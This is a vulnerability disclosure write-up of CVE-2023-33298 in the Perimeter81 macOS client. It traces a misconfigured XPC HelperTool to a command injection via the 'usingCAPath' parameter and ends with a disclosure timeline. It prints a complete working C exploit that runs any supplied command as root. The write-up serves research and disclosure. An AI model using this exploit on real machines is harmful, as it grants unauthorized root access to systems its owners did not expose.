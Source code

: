 ```yaml
---
title: CVE-2023-33298 - Perimeter81 Local Privilege Escalation
description: Exploiting XPC HelperTool to gain LPE
date: 2023-06-30T00:38:03.147668+02:00
toc: true
tags:
    - reverse-engineering
    - macos
    - cve
refs:
    - https://perimeter81.com
draft: false
---
```


# Introduction

Today we will be analyzing CVE-2023-33298 which is Local Privilege Escalation inside the Perimeter81 macOS application. We will be exploiting XPC service misconfiguration along with the Command Injection vulnerability 
to gain `root` privileges.

# Analysis

Perimeter81 adds an entry to _LaunchDaemons_, and we can examine the content of the `com.perimeter81.osx.HelperTool.plist` located inside `/Library/LaunchDaemons/` directory.

![LaunchDaemon plist file](../images/perimeter_helper_plist_file.png)

We can see that the key for `MachServices` is dictionary containing `com.perimeter81.osx.HelperTool`. This is the name of mach service which is exposed by the 
_com.perimeter81.osx.HelperTool_ binary.

If we now load `/Library/PrivilegedHelperTools/com.perimeter81.osx.HelperTool` inside the Hopper and search for `xpc_connection_create_mach_service` we can 
confirm that the function is called with `com.perimeter81.osx.HelperTool` as first argument.

![Mach Service Creation](../images/perimeter_service_creation.png)

From the image, we can also see that it calls `xpc_connection_set_event_handler` with `&var_40`. We can read [documentation](https://clang.llvm.org/docs/Block-ABI-Apple.html) and 
conlude that the structure contains `isa` pointer (which type of block is this), followed by two ints(flags and reserved) and finally `void (*invoke)(void *, ...);` function pointer 
which points to the actualy compiled block body.

Inside the disassembly, we can see that `*(&var_40 + 0x10) = sub_1002169d7;` points to `sub_1002169d7`. Let's now examine this function.

![Main connection handler](../images/perimeter_first_handler.png)

Inside the `else` we can see another call to `xpc_connection_set_event_handler` with the block that has `invoke` pointer set to `sub_100216a98`. Double clicking on this sub shows the following code.

![Peer connection handler](../images/perimeter_second_handler.png)

Based on this function we can conclude the following:

* We need to send the dictionary
* `type` inside the dictionary needs to be `rpc` or `helper_tool_rpc`.
* Function `sub_100216d6c` is called in multiple branches so we will check what that is
* We can also see that we have a line `r12 = xpc_dictionary_get_string(r13, "rpc");` followed by the check whether _r12_ is equal to *start_connection* so we can conclude that the key _rpc_ will contain some kind of function what to do.

Inspecting the `sub_100216d6c` function shows that it calls `-[SDHelperTool handleTargetServiceCommand:withRequest:withReply:]`.

![HandleTargetService](../images/perimeter_handletarget.png)

Since this method is a bit bigger, we will show only the beginning and the end of the function which are interesting.

![Check for target service](../images/perimeter_check_for_params.png)

We can see that it tries to extract the `parameters` and `target_service` keys. If `target_service` is NULL, it jumps to `loc_10020a119`. 

![Creation of generalInvoker selector](../images/perimeter_generalInvoker_create.png)

We can see that it saves `@selector(generalInvoker)` inside the `rax` register and then jumps back to `loc_10020a1c0`. `loc_10020a1c0` just calls `handleXPCServiceCommand:withParameters:withReply`.

![Calling handleXPCServiceCommand](../images/perimeter_handle_xpc.png)

If we search for "generalInvoker" in Hopper we can see that we have a match for `-[SDHelperTool setup_GeneralInvoker]` which allocates new object of class *SDHelperTool_InvokerGeneral*. 

![setup_GeneralInvoker](../images/perimeter_helpertool_general_invoker.png)

Searching for `DHelperTool_InvokerGeneral` reveals a lot of methods. After digging around a bit, I have found `install_SDP_CA:withReply:` which calls `security add-trusted-cert -d -r trustRoot -k /Library/Keychains/System.keychain %@` with the value from dictionary under the key `usingCAPath`. This is typical command injection where we can simply append `;` followed by the command we want to execute.

![Searching for DHelperTool_InvokerGeneral](../images/perimeter_invokergeneral_search.png)

![install_SDP_CA method](../images/perimeter_install_sdpca.png)

So to recap, our exploit should do the following:

* call `xpc_connection_create_mach_service` with `com.perimeter81.osx.HelperTool` as a name
* create a dictionary for __properties__ with the key __usingCAPath__ and value as __; some command to run as root__
* create another dictionary that will be our message with `type` as `helper_tool_rpc`, `rpc` as `install_SDP_CA`, and key `parameters` set to the previous dictionary
* send the message

# Full exploit

Full exploit looks like the following:

```c
#import <Foundation/Foundation.h>

#define NAME "com.perimeter81.osx.HelperTool"

int main(int argc, const char **argv) {
    if (argc != 2) {
        printf("missing cmd to execute\n");
        exit(1);
    }

    xpc_connection_t conn = xpc_connection_create_mach_service(NAME, NULL, 0);
    xpc_connection_set_event_handler(conn, ^(xpc_object_t object){
        NSLog(@"client received event: %s", xpc_copy_description(object));
    });
    xpc_connection_resume(conn);

    const char *c = argv[1];

    char cmd[250];
    sprintf(cmd, "; %s", c);

    // create dictionary to hold our parameters
    // method name and its parameters
    xpc_object_t params = xpc_dictionary_create(NULL, NULL, 0);
    xpc_dictionary_set_string(params, "usingCAPath", cmd);

    // create dictionary to send over xpc
    xpc_object_t message = xpc_dictionary_create(NULL, NULL, 0);
    xpc_dictionary_set_string(message, "type", "helper_tool_rpc");
    xpc_dictionary_set_string(message, "rpc", "install_SDP_CA");
    xpc_dictionary_set_value(message, "parameters", params);

    xpc_connection_send_message_with_reply(conn, message, dispatch_get_main_queue(), ^(xpc_object_t object){
        NSLog(@"Executed cmd: \"%s\"\n", c);
    });


    // create run loop so we can get async result for our command, otherwise the exploit would exit after sending the 
    // message
    dispatch_main();

    return 0;
}

```

![Running the exploit](../images/perimeter_exploit.png)

# Timeline

| Date            | Action                                                                      |
| --------------- | -----------                                                                 |
| 17 March 2023   | Sent report to Perimeter81                                                  |
| 21th March 2023 | Asked for an update, no reply                                               |
| 10th April 2023 | Asked for an update once more, got response that it was wrongly sidetracked |
| 19th April 2023 | Sent mail to see whether they have investigated it and working on it        |
| 10th May 2023   | Another mail and got no response                                            |
| 16th May 2023   | Contacted VINCE to coordinate disclosure                                    |

VINCE tried to contact them multiple times without success, so after more than three months I have decided to disclose the vulnerability.
